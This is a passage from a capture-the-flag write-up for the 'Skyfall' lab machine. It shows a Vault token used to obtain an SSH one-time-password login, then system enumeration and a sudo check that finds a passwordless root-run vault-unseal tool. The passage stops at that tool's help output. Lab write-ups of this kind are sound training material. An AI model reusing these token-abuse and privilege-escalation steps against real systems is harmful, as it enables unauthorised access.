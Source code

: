 ```markdown
> ./vault ssh -role dev_otp_key_role -mode otp -strict-host-key-checking=no askyy@10.10.11.254
```
Which is valid to get the user flag.

### ROOT
Start from an SSH session for user `askyy`
```markdown
> export VAULT_ADDR="http://prd23-vault-internal.skyfall.htb"

> export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"

> ./vault ssh -role dev_otp_key_role -mode otp -strict-host-key-checking=no askyy@10.10.11.254
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-92-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
askyy@skyfall:~$
```
Take the opportunity to enumerate the system.
```markdown
> uname -a && cat /etc/os-release
Linux skyfall 5.15.0-92-generic #102-Ubuntu SMP Wed Jan 10 09:33:48 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
PRETTY_NAME="Ubuntu 22.04.3 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.3 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```
And the current user.
```markdown
> whoami && id
askyy
uid=1000(askyy) gid=1000(askyy) groups=1000(askyy)
```
Check if `askyy` is a sudoer.
```markdown
> sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```
It seems `askyy` is allowed to unseal the vault as root, no password will be prompted. Check `unseal` command help for options available.
```markdown
> sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -h
```
